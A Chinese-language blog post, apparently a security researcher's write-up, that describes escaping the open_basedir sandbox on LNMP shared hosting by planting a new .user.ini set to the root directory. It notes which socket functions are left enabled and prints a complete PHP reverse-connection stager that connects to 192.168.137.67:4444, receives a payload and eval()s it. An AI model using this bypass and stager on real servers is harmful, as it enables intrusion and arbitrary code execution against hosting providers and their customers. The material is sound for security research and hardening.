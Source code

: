 ```yaml
---
layout: post
title: LNMP虚拟主机PHP沙盒逃逸
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;并不只是针对Lnmp的沙盒逃逸，而是.user.ini的设计缺陷达到绕过open_basedir限制，所以是通用的方法。首先来看看最新版LNMP是怎么配置open_basedir的：

    open_basedir=/home/wwwroot/default:/tmp/:/proc/

    lsattr .user.ini
    ----i----------- .user.ini

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;LNMP的open_basedir是通过.user.ini来配置的。再来看disable_functions都禁用了哪些函数：

    lnmp1.3/include/php.sh

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/5ethrdfb.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;注意到了stream_socket_server被禁用了。这个是用来建立Socket服务端的，完全可以使用其他可创建socket服务端的函数进行反弹个socket会话，比如socket_create、 fsockopen。不过虽是可以建立socket会话，但group为www，所以这个留在后面结合使用。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;.user.ini是不允许增删改的，那怎样能突破限制？.user.ini只在当前目录生效了。那么我们可不可以写入新的.user.ini并且不与原.user.ini冲突，将其open_basedir指向根目录？可以的。


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;首先创建一个目录并写入新的.user.ini。新的.user.ini需要1-3min来生效。

    open_basedir=/

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;最后结合socket，使用msf在新目录生成个反向代理payload并稍加更改就可以了。

    <?php
    error_reporting(0);
    
    $ip = '192.168.137.67';
    $port = 4444;
    $ipf = AF_INET;
    if (FALSE !== strpos($ip, ":")) {
    	$ip = "[". $ip ."]";
    	$ipf = AF_INET6;
    }
    if (($f = 'fsockopen') && is_callable($f)) {
    	$s = $f($ip, $port);
    	$s_type = 'stream';
    } elseif (($f = 'socket_create') && is_callable($f)) {
    	$s = $f($ipf, SOCK_STREAM, SOL_TCP);
    	$res = @socket_connect($s, $ip, $port);
    	if (!$res) {
    		die(); 
    	}
    	$s_type = 'socket';
    } else {
    	die('no socket funcs');
    }
    if (!$s) {
    	die('no socket');
    }
    
    switch ($s_type) {
    	case 'stream': $len = fread($s, 4); break;
    	case 'socket': $len = socket_read($s, 4); break;
    }
    
    if (!$len) {
    	die();
    }
    
    $a = unpack("Nlen", $len); $len = $a['len'];
    $b = '';
    while (strlen($b) < $len) {
    	switch ($s_type) {
    		case 'stream': $b .= fread($s, $len-strlen($b)); break;
    		case 'socket': $b .= socket_read($s, $len-strlen($b)); break;
    	}
    }
    $GLOBALS['msgsock'] = $s;
    $GLOBALS['msgsock_type'] = $s_type;
    eval($b);
    die();
    ?>

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/rsd.png">